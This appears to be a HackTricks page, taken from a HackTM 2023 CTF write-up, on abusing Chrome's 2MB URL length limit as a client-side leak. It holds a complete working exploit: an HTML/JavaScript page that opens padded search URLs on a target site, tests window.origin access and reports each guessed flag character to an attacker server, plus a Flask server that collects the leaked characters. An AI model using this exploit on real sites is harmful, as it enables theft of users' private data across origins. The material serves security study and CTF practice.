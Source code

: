 # URL Max Length - Client Side

{{#include ../../banners/hacktricks-training.md}}

Code from [https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/secrets#unintended-solution-chromes-2mb-url-limit](https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/secrets#unintended-solution-chromes-2mb-url-limit)

```html
<html>
  <body></body>
  <script>
    ;(async () => {
      const curr = "http://secrets.wtl.pw/search?query=HackTM{"

      const leak = async (char) => {
        fetch("/?try=" + char)
        let w = window.open(
          curr + char + "#" + "A".repeat(2 * 1024 * 1024 - curr.length - 2)
        )

        const check = async () => {
          try {
            w.origin
          } catch {
            fetch("/?nope=" + char)
            return
          }
          setTimeout(check, 100)
        }
        check()
      }

      const CHARSET = "abcdefghijklmnopqrstuvwxyz-_0123456789"

      for (let i = 0; i < CHARSET.length; i++) {
        leak(CHARSET[i])
        await new Promise((resolve) => setTimeout(resolve, 50))
      }
    })()
  </script>
</html>
```

Server side:

```python
from flask import Flask, request

app = Flask(__name__)

CHARSET = "abcdefghijklmnopqrstuvwxyz-_0123456789"
chars = []

@app.route('/', methods=['GET'])
def index():
    global chars

    nope = request.args.get('nope', '')
    if nope:
        chars.append(nope)

    remaining = [c for c in CHARSET if c not in chars]

    print("Remaining: {}".format(remaining))

    return "OK"

@app.route('/exploit.html', methods=['GET'])
def exploit():
    return open('exploit.html', 'r').read()

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

{{#include ../../banners/hacktricks-training.md}}



